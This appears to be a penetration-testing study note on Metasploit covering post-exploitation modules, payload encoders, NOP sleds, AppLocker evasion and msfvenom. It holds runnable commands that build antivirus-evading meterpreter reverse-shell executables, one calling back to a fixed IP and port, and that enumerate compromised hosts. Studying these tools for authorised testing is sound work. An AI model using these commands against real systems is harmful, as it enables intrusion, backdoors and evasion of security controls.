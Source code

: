 #+title: Post Exploitation
#+date:    2025-09-26
#+contact: gabriel

Post exploitation modules are used after a machine has been compromised and a meterpreter session has been opened. They perform various tasks such as collecting data from the machine and elevating privileges.

After penetrating a system, you may want to gain further access to the target's internal networks by pivoting and cleaning up your tracks as you move between systems.

A penetration tester might want to sniff packets for other potential targets, modify registry entries to gain more information or access, or place a backdoor to ensure persistent system access.

* Information Gathering
To search for post exploitation modules related to information gathering, we can search with
: search type:post gather

*select an payload* ->
: use post/linux/gather/enum_system

*set the session value* ->
: set SESSION 1

: run

* Encoders
Encoders take the raw data of a payload and rearrange it using a specific encoding algorithm.

Bad characters can cause the payload to not work as expected on the target system. Encoders mask these characters to ensure the payload runs smoothly.

Antivirus software and other security products look for known malware signatures. Encoders make it harder for these security measures to detect the payload, increasing the chance of a successful attack.

Different encoders can be customized for various situations and target systems.

: show encoders

*example* ->

: use payload/windows/meterpreteer/reverse_tcp

: set ENCODER x86/shikata_ga_nai

: generate -f exe -o /root/Desktop/payload.exe

* Nops (No Operations)
As the name suggests, these commands do not perform any operation. Nops typically instruct a processor to move on to the next command without performing any action.

Nops modules are used to implement techniques known as "NOP sled" or "NOP slide" during exploits. This technique plays a crucial role in ensuring that an exploit successfully executes.

The primary purpose of using Nops is to provide a reliable "slide" to a specific location in the target system's memory. An exploit aims to execute a piece of code in the target system's memory.

A Nops sled consists of a series of "nop" commands placed before the malicious code. Even if the attacker does not know the exact starting point of the exploit, it can "slide" into the exploit code from any memory address.

: show nops

When creating an exploit or preparing a payload, you can select one of these Nops modules to make the exploit/payload more flexible and reliable.

*example* ->

: use payload/windows/meterpreteer/reverse_tcp

: set NOP x86/single_byte

: generate -f exe -o /root/Desktop/payload.exe

* Evasion
Evasion modules are used during the preparation and execution of exploits. An attacker uses these modules to bypass security measures and access target systems with as little attention as possible.

Evasion modules implement strategies to ensure that exploits and payloads are executed successfully without being detected by security measures

: show evasion

For example, to bypass policy-based application control systems like AppLocker or antivirus software in Windows environments, the following steps can be taken.

: use evasion/windows/applocker_evasion_msbuild

: set PAYLOAD windows/x64/meterpreter_reverse_tcp

This evasion module creates and sends a payload that bypasses AppLocker policies through MSBuild, allowing the malicious code to be executed.

If AppLocker policies are active on the target system and MSBuild is listed as a trusted application, this technique has a high chance of success.


* msfvenom
MSFvenom is the combination of the Msfpayload and Msfencode tools into a single Metasploit Framework utility. As of June 8, 2015, MSFvenom replaced MSFpayload and MSFencode.

- A single tool
- Standardized command line options
- Increased speed

  With MSFvenom, we can generate payloads for various platforms. For instance, we can create an exe file to deploy a backdoor for Windows operating systems, an elf file for Linux operating systems, or apk files for Android operating systems, etc.

  MSFvenom allows for the rapid creation of malware and the encoding of payloads to evade existing security solutions.

  *example* ->
  : msfvenom -p windows/meterpreter/reverse_tcp LHOST=172.20.5.187 LPORT=1337 -f exe -o meterpreter_shell.exe

  This command generates an .exe file containing a meterpreter payload that establishes a reverse shell connection for the Windows operating system.
